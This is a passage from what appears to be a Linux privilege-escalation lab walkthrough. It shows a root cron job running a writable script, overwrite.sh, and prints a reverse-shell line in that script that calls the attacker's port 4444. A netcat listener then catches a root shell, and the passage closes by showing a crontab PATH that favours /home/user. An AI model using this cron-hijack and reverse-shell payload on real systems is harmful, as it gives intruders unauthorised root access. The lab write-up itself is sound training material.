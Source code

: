 ```jsx
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
* * * * * root overwrite.sh
* * * * * root /usr/local/bin/compress.sh

user@debian:~$ locate overwrite.sh
locate: warning: database `/var/cache/locate/locatedb' is more than 8 days old (actual age is 480.8 days)
/usr/local/bin/overwrite.sh
```

### overwrite.sh

---

```jsx
user@debian:~$ cat /usr/local/bin/overwrite.sh
#!/bin/bash

bash -i >& /dev/tcp/$IP_ATTACKER/4444 0>&1
user@debian:~$
```

### Netcat

---

```jsx
➜  ~ nc -nvlp 4444
Connection from 10.10.165.217:36636
bash: no job control in this shell
root@debian:~#
```

# Task 9 Cron Jobs - PATH Environment Variable

---

```jsx
user@debian:~$ cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/home/user:/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user	command
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
* * * * * root overwrite.sh
* * * * * root /usr/local/bin/compress.sh

user@debian:~$
```
